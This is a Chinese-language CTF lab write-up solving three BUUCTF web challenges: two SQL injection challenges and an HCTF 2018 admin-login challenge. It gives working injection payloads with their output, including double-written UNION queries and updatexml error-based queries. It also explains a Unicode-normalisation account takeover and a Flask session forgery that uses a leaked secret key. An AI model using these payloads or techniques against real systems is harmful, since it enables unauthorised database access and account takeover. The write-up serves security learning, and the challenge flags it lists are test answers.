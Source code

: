 # BUUCTF web记录3


## 0x00 [极客大挑战 2019]BabySQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)

打开题目，还是熟悉的用户名密码注入界面

![image-20210721115109030](image-20210721115109030.png "网站首页")

首先判断闭合类型，用户名随便写，密码栏填个`b'`，发现报错，说明查询语句是单引号闭合。

![image-20210719170507319](image-20210719170507319.png "报错信息1")

然后尝试一下密码`b' or 1=1 #`，发现报错信息中只有`'1=1 #''`。一开始我也不知道是怎么回事，查阅资料之后才知道，原来有的waf会对`or`、`select`等SQL语句关键字做过滤，比如直接替换为空，所以这题要使用[双写绕过](https://blog.csdn.net/m0_51504576/article/details/115832188)。

![image-20210719170705563](image-20210719170705563.png "报错信息2")

试着使用union查询，输入`b' ununionion seselectlect 1,2,3 #`，显示成功登录信息，说明被查询的表的列数为3。

![image-20210721115510406](image-20210721115510406.png "回显信息")

接下来就是套路化的操作，精髓是使用`information_schema`等记录数据库自身信息的数据库，以及`group_concat()`函数。因为看到了2和3的回显，所以把2和3替换为其它表达式可以进行注入。

懒得放截图，直接把回显结果贴一下。

首先查看当前数据库

````sql
b' ununionion seselectlect 1,2,database() #
````

```
Hello 2！
Your password is 'geek'
```

再查看所有数据库

````sql
b' ununionion seselectlect 1,2,group_concat(schema_name)frfromom (infoorrmation_schema.schemata) #
````

```
Hello 2！
Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'
```

看到一个`ctf`库，再去爆这个数据库的表

```sql
b' ununionion seselectlect 1,2,group_concat(table_name)frfromom(infoorrmation_schema.tables) whwhereere table_schema="ctf" #
```

```
Hello 2！
Your password is 'Flag'
```

其中有个`Flag`表，然后再去爆字段

````sql
b' ununionion seselectlect 1,2,group_concat(column_name) frfromom (infoorrmation_schema.columns) whwhereere table_name="Flag"
````

```
Hello 2！
Your password is 'flag'
```

其中有`flag`字段，再去爆数据

```sql
b' ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag)
```

拿到flag

```
Hello 2！
Your password is 'flag{b11bfeba-d864-4a0a-97f6-77e3ef266da9}'
```

个人感觉，这题的要点在于数据库本身信息数据库的内容，以及`group_concat`的使用，双写绕过其实是个很简单的东西。

### 参考链接：

- [information_schema数据库](https://www.cnblogs.com/kankanhua/p/6484972.html)

-  [group_concat()函数](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)

## 0x01 [极客大挑战 2019]HardSQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

可以试出是单引号闭合，但是空格被过滤了，所以使用报错注入

```
b'or(updatexml(1,concat(0x7e,(select(database())),0x7e),1))#
```

```
XPATH syntax error: '~geek~'
```

找到`geek`数据库，然后又是类似的程序化操作，爆库、爆表、爆字段、爆数据

```sql
#==爆geek数据库中的表==
b'or(updatexml(1,concat(0x7e,(select(group_concat(`table_name`,'@'))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#

#==回显结果==
XPATH syntax error: '~H4rDsq1@~'

#==爆列名==
b'or(updatexml(1,concat(0x7e,(select(group_concat(`column_name`,'@'))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#

#==回显结果==
XPATH syntax error: '~id@,username@,password@~'

#猜测flag内容在password字段里
#==爆password数据==
b'or(updatexml(1,concat(0x7e,(select`password`from`H4rDsq1`where`password`like('flag{%')),0x7e),1))# //注释掉%}

#==回显结果==
XPATH syntax error: '~flag{b4541970-14a3-4581-ae1f-30'

#发现只有一半的flag，所以还需要
#==爆破==
b'or(updatexml(1,concat(0x7e,right((select`password`from`H4rDsq1`where`password`like('flag{%')),30),0x7e),1))# //注释掉%}

#==回显结果==
XPATH syntax error: '~0-14a3-4581-ae1f-303399d179f8}~'
```

这题的主要知识点就是利用`updatexml()`和`extractvalue()`函数进行报错注入。使用`concat()`函数，再加上`~`或者`@`等能够引起路径参数报错的字符，将形如`concat(0x7e, 语句, 0x7e)`这样的结果作为参数，就能够得到`XPATH syntax error: '回显结果'`这样的报错信息，实现注入。

### 参考链接：

- [https://blog.csdn.net/Xxy605/article/details/116999699](https://blog.csdn.net/Xxy605/article/details/116999699)
- [SQL报错注入攻击中的updatexml()函数](https://blog.csdn.net/weixin_45738112/article/details/105131866)

## 0x02 [HCTF 2018]admin

[题目链接](https://buuoj.cn/challenges#[HCTF%202018]admin)

这是一道很有趣的题，网站提供了注册、登录、修改密码等功能。

看源码大致可以感觉到，需要你以`admin`身份登录，才能够获取flag，但是`admin`是已经注册过的用户，所以在不知道`admin`密码的情况下无法登录。

![image-20210724184059694](image-20210724184059694.png "源码提示")

查阅一些wp之后，可以得到3种解法。

### 解法1：弱密码

这是很扯的一个解法，可以理解为，机缘巧合，直接试出来了`admin`的密码是`123`🤣，登录拿到flag

### 解法2：unicode欺骗

预期解之一。查看网页源码可以看到该web应用是一个flask应用，源码地址为[https://github.com/woadsl1234/hctf_flask](https://github.com/woadsl1234/hctf_flask)

![image-20210724184719396](image-20210724184719396.png "改密码界面的源码注释提示")

查看源码中的路由逻辑`routes.py`，其中的`login`与`change`路由处理逻辑使用了过时版本twisted框架中的`nodeprep.prepare()`函数，该函数会将`ᴬ`转换为`A`，然后转换为小写的`a`（这个知识点我也不知道获取的渠道是什么）。

```python
@app.route('/login', methods = ['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('index'))

    form = LoginForm()
    if request.method == 'POST':
        name = strlower(form.username.data) //<------就在这里使用了一个自定义的strlower()函数
        session['name'] = name
        user = User.query.filter_by(username=name).first()
        if user is None or not user.check_password(form.password.data):
            flash('Invalid username or password')
            return redirect(url_for('login'))
        login_user(user, remember=form.remember_me.data)
        return redirect(url_for('index'))
    return render_template('login.html', title = 'login', form = form)

...

def strlower(username):
    username = nodeprep.prepare(username)
    return username
```

{{< admonition tip >}}
所以Unicode欺骗的做法就是先注册一个`ᴬDMIN`用户，然后修改密码。在注册与修改密码的过程中username会发生如下转变`ᴬDMIN`->`Admin`->`admin`，所以相当于能够控制`admin`用户的密码，然后就能够以`admin`用户的身份登录，获取flag。
{{< /admonition >}}

### 解法3： 修改flask session

那个web应用是个flask应用，flask是将`session`保存在本地的，并且没有做加密，而是仅仅进行了签名以防篡改，而搜索源代码可以看到其签名使用的密钥为`ckj123`。

```python
import os

class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```

所以，我们可以用burp拦截普通用户登录后查看Index页面的请求，再使用[flask session编解码工具](https://github.com/noraj/flask-session-cookie-manager)解码拦截到的`session`，然后修改其中的用户ID，再重发请求，即可获得flag。

![image-20210726171651090](image-20210726171651090.png "解码")

将`name`改为`admin`，再进行签名。

![image-20210726172004692](image-20210726172004692.png "重新签名")

![image-20210726171919586](image-20210726171919586.png "重发拿到flag")

### 参考链接：

- [https://blog.csdn.net/mochu7777777/article/details/109302175](https://blog.csdn.net/mochu7777777/article/details/109302175)

- [Unicode Character Table](https://unicode-table.com/en/)
- [客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)



